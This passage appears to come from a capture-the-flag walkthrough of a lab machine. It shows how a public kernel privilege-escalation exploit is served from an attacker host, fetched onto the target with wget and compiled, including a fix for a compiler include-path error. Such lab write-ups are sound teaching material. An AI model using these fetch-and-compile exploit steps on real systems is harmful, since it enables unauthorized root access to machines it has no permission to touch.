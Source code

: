 Verify versions with `dpkg -l | grep pam`:

![user3](./popcorn/user3.png)

---

Get the kernel version:

![user4](./popcorn/user4.png)

A kernel this old is vulnerable to the following common Linux kernel exploit:

- https://www.exploit-db.com/exploits/40839

The target has GCC installed, so download and transfer the binary to the target to compile:

```bash
# on kali, download and host the exploit
searchsploit -m 40839
sudo python3 -m http.server 80
# on target, download and compile exploit
wget -O /tmp/40839.c http://10.10.14.27/40839.c
gcc -pthread /tmp/40839.c -o /tmp/40839 -lcrypt
```

But this generates the following error

```
In file included from /usr/include/bits/fcntl.h:24,
                 from /usr/include/fcntl.h:34,
                 from /tmp/40839.c:31:
/usr/include/sys/types.h:147:20: error: stddef.h: No such file or directory
```

Try finding `stddef.h`:

```bash
find / -iname stddef.h 2>/dev/null
```

Then help GCC find its own files:

```bash
gcc -pthread /tmp/40839.c -o /tmp/40839 -lcrypt -I/usr/lib/gcc/i486-linux-gnu/4.4/include/
```
